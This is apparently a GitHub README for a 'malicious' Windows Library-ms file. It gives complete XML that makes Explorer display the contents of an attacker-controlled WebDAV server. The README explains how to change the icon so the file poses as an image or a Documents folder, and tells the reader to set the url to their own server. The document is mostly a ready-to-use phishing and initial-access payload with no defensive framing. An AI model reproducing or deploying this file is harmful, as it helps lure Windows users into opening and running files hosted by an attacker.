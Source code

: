 # MaliciousMSLibrary

Malicious Library-ms Example Code

This repository contains code for a malicious ms-Library that shows the content of a attacker-controlled WebDAV server.

From the code below, changing *iconReference*  value to -1002 (keeping the same DLL) will change the icon to a Windows Documents folder. 
Actual value (-1003) sets the icon of an Image file icon.

*url* value must be changed to the WebDAV server address.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://10.10.10.10</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

